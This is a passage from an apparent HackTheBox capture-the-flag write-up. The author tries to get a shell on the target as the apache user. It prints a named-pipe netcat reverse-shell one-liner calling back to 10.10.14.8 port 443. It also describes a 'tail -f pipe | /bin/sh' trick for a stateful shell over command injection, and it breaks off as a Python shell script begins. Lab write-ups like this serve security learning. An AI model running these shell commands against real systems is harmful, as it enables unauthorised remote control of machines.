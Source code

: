 So I tried it outside of `/tmp`, and no logs:



    rm /dev/shm/f;mkfifo /dev/shm/f;cat /dev/shm/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/dev/shm/f



But also no shell.. Turns out `nc` isn't on the box, but the pipe did
create:



    CTF> which nc
    CTF> ls -l /dev/shm
    total 0
    prw-r--r--. 1 apache apache 0 Jul 16 22:46 f



### Shell as apache

#### Background

Since the box intended to not allow me to get a reverse shell as apache,
I'll think about how I would have gotten around that problem. The
easiest answer is to just do the handful of commands I did as apache via
the webpage cmd instance. I showed that [earlier](#exploit-it).

But never one to pass up a neat coding exercise, I decided to try to
make a stateful shell from command injection, similar to what I did in
[Stratosphere](/htb-stratosphere.md#building-a-shell). I'll
use a technique that IppSec came up with where I create a shell process
on target that looks like this:



    tail -f pipe1 | /bin/sh 2>&1 > pipe2



The `tail -f pipe1` holds open the shell, so anything I write to that
pipe will go into `sh`, and then anything coming out will go into
`pipe2`. To The `sh` session runs statefully, and I can write commands
into `pipe1`, and get results from `pipe2`.

Unfortunately, when I wrote this shell, I had not yet figured out that I
could write pipes in `/dev/shm`, and I thought that submitting a command
to make those pipes would fail. So I settled for a state-less shell that
at least makes it easy to run commands without having to look up the otp
over and over. Good exercise for the reader to convert this to a
stateful shell, like I had in Stratosphere.

#### Code

I'll make use of the [python cmd
module](https://docs.python.org/3/library/cmd.md) to build the shell.



      1 #!/usr/bin/env python3
      2 
      3 import re
      4 import requests
      5 import time
      6 from cmd import Cmd
      7 #from datetime import datetime
      8 from subprocess import Popen, PIPE
      9 
     10 class CTF_TERM(Cmd):
     11     prompt = "CTF> "
     12     
     13     def __init__(self, proxy=None):
     14     